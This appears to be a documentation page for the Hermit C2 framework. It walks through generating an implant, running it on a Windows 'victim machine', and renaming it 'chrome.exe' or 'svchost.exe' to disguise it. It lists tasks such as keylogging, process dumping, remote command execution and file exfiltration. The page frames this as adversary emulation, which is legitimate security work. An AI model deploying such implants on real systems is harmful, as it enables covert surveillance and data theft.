 # Simple Implant Beacon

This page introduces the basic usage of execute the implant beacon on Windows victim machine.  

Assume that you've already installed Hermit.  
If not yet, see [the Installation page](../installation.md) and try [Getting Started](../getting-started.md).

## 1. Start C2 Server

Go to the Hermit project directory then run `./hermit` command.

![hermit server start](../assets/images/terminal/hermit_server_start.png)

## 2. Start HTTPS Listener

![listener start](../assets/images/terminal/listener_start.png)

## 3. Generate Implant Payload

![payload gen](../assets/images/terminal/payload_gen.png)

The implant is saved under `$HOME/.hermit/server/listeners/listener-<name>/payloads/` folder.  

### Transfer the Implant

Transfer the implant (`.exe`) to the Windows target computer.  
At that time, it's recommended to rename the filename because the word "implant" in the file name is too dignified.  
For example, rename it with "chrome.exe", "svchost.exe", etc.

## 4. Execute Implant

On the victim machine, execute the implant as below:  

```ps title="Windows Victim Machine"
.\implant
```

## 5. Switch to Agent Mode

After a few seconds, the agent checked in and listed on the C2 server.  
You can check the agent listed with the `agents` command.

![agent list](../assets/images/terminal/agent_list.png)

Now switch to Agent Mode by specifying the agent ID (e.g. `1`):

![agent use](../assets/images/terminal/agent_use.png)

## 6. Send Task & Get the Result

In Agent Mode, you can send tasks and get results.  
To see what tasks are available, run `?` or `help` command.  
Currently, the following tasks are available:

```txt
TASK
====

  cat      <FILE>        : Print the contents of a file
  cd       <DIR>         : Change the working directory
  cp       <SRC> <DEST>  : Copy a file
  download <SRC> <DEST>  : Download a file from the target computer
  execute  <CMD>         : Execute a system command on target computer
  ip                     : Get IP addresses for target computer
  keylog   <NUM>         : Keylogging for N seconds
  kill                   : Stop the implant process
  ls       <DIR>         : List files in a directory
  migrate  <PID>         : Get into another process
  mkdir    <DIR>         : Create a new directory
  mv       <SRC> <DEST>  : Move a file to a destination location
  net                    : Get TCP connections
  procdump <PID>         : Dump process memory to a specified output file
  ps                     : List processes that are running
  ps kill  <PID>         : Kill a specified process
  pwd                    : Print the current working directory
  rm       <FILE>        : Remove a file
  rmdir    <DIR>         : Remove a directory
  screenshot             : Take a screenshot on target computer
  sleep    <NUM>         : Set sleep time (seconds) between requests from beacon
  upload   <SRC> <DEST>  : Upload a file to the target computer
  whoami                 : Print the current username

  task clean             : Remove all tasks from waitlist
  task list              : List tasks waiting for the results
  tasks                  : Alias for 'task list'
```

First, let's try sending the `whoami` task to the agent.  
This task retrieves the username on the victim machine.  

![task send](../assets/images/terminal/task_send.png)

To see the tasks waiting for results, run the `tasks` command.  
*However the Implant beacon sleep time is 3 seconds by default, so you need to run thie `task` command immediately after executing the `whoami` command.


After a few seconds, you can get the task result with the `loot` command:

![loot](../assets/images/terminal/loot.png)

Please try other tasks as well.

## 7. Quit Agent Mode

After emulations, simply run the `exit` command to quit Agent Mode.  
You should quit and return to the original console.
